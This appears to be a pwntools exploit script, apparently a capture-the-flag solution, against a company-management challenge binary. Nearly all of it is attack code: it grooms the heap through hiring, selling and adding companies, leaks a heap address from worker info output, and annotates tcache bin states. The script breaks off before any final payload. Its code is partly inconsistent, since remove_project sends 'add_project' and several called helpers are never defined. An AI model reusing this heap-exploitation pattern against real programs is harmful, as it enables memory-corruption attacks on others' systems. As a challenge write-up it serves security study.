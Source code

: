 ```python
def remove_project(company_name,project_name):
    p.sendline(b"add_project "+company_name+project_name)

def hire_worker(company_name,project_name,worker_name,salary):
    p.sendlineafter(b"INFO: Success",b"hire_worker "+company_name+project_name+worker_name+b" "+salary)

def fire_worker(worker_name):
    p.sendline(b"fire_worker "+worker_name)

def move_worker(worker_name,new_project_name):
    p.sendline(b"move_worker "+worker_name+new_project_name)

def worker_info(worker_name):
    p.sendline(b"worker_info "+worker_name)

def elapse_week():
    p.sendline(b"elapse_week ")

# context(os="linux",arch="amd64",log_level="debug")

p.sendline(b"add_company "+b"llk "+str(1200).encode())

add_project(b"llk ",b"pwn ",b"1000000 ")

for i in range(40):
    hire_worker(b"llk ",b"pwn ",str(i).encode(),str(30).encode())

elapse_week()

sell_company(b"llk ")

add_company(b"llk1 ",str(1200).encode())
add_company(b"llk2 ",str(1200).encode())
add_project(b"llk2 ",b"pwn ",b"1000000 ")

worker_info(str(1).encode())

p.recvuntil(b"Project workers count: ")
heap=(int(p.recvuntil(b"\n")[:-1].decode('ascii'))<<3)-0x13370
print("leak heap",hex(heap))

add_company(b"llk3 ",str(1200).encode())

add_project(b"llk3 ",b"pwn ",b"1000000 ")

for i in range(40):
    hire_worker(b"llk3 ",b"pwn ",str(i+40).encode(),str(30).encode())

elapse_week()

sell_company(b"llk3 ")

# for tcache
#0x50 [  3]: 0x584af5e73600 —▸ 0x584af5e746c0 —▸ 0x584af5e74850 ◂— 0

add_company(b"wait1 ",str(1200).encode())
add_company(b"wait2 ",str(1200).encode())
add_company(b"wait3 ",str(1200).encode())
add_company(b"wait4 ",str(1200).encode())

#0x50 [  4]: 0x584af5e755c0 —▸ 0x584af5e73600 —▸ 0x584af5e74850 —▸ 0x584af5e746c0 ◂— 0

```